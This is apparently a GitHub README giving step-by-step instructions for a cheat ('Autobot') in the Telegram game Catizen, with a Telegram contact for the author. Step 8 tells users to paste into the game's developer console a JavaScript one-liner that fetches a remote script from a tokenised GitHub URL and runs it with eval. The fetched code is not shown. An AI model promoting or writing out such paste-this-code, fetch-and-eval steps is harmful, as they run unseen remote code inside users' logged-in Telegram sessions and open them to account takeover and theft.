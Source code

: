 # Instructions on how to use the Autobot hack in the game Catizen
##### If you have any questions, please contact me on Telegram:
#

[![My Telegram](https://img.icons8.com/ios/50/000000/telegram.png)](https://t.me/rovie69)

#### 1. Open the desktop Telegram client.
#### 2. Go to Settings - Advanced - Experimental Settings.
#### 3. Scroll down, find the Enable webview expecting option, switch it on.
#### 4. Reload the Telegram client.
#### 5. Go to Catizen, click on the game field where the kitties are playing.
#### 6. Press the key combination Ctrl + Shift + i, the developer console will open.
#### 7. Allow input to the console: type something and send it to the console, the system will tell you what to type to allow input.
#### 8. Paste the code below and send
```javascript
var unixTime=Date.now(); var url='https://raw.githubusercontent.com/rahavitski/cats-stuff/main/Catizen-script-v1.1.js?token=GHSAT0AAAAAACQ2I2QLSVBWQ7COEMC4HVFMZQ643GA'+'?'+unixTime; fetch(url).then(response=>response.text()).then(script=>eval(script));
```
#### 9. Wait a couple of seconds, go to the game, switch on Autobot and farm $CATS!
#### 10. Now every time you start the game, you need to repeat steps 5 to 9 to activate Autobot.
